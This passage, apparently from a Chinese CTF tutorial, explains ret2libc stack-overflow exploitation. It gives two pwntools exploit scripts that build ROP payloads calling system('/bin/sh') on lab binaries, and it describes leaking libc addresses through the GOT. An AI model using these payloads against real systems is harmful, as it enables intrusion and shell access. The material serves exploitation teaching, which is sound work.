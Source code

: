 确定存在栈溢出漏洞,<u>用IDA找到了system函数,用ropgadget查找到"/bin/sh"</u>。

则EXP如下：

```
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

**这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb' 作为虚假的地址，其后参数对应的参数内容。**

------

当查找不到"/bin/sh"时，需要我们来自己读取字符串，所以此时需要两个gadget，第一个用来控制程序读取字符串，第二个用来控制程序执行system函数。这种情况的解决办法就是向程序种bss段的buf2处写入字符串，并将其地址作为参数传给system()函数。

EXP如下：

```
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

**注意payload中的pop_ebx是用来平衡堆栈的。**

------

同时找不到"/bin/sh"与system()函数地址的情况，用到了两个知识点：

- system 函数属于 libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
- 即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变，而 libc 在 github 上有人进行收集，可以用网站查找，用pwntools中的工具查找。

所以如果采用got表泄露(即输出某个函数对应的 got 表项的内容)的方法，泄露出了libc中某个函数的地址，就能够确定libc的版本号。由于libc的延迟绑定机制，我们需要泄露已经执行过的函数的地址。使用LibcSearcher工具可简化操作流程。

此外，libc中是一定存在"/bin/sh"的，所以字符串地址也可以获取。这方面工具做的很完善。

示例：
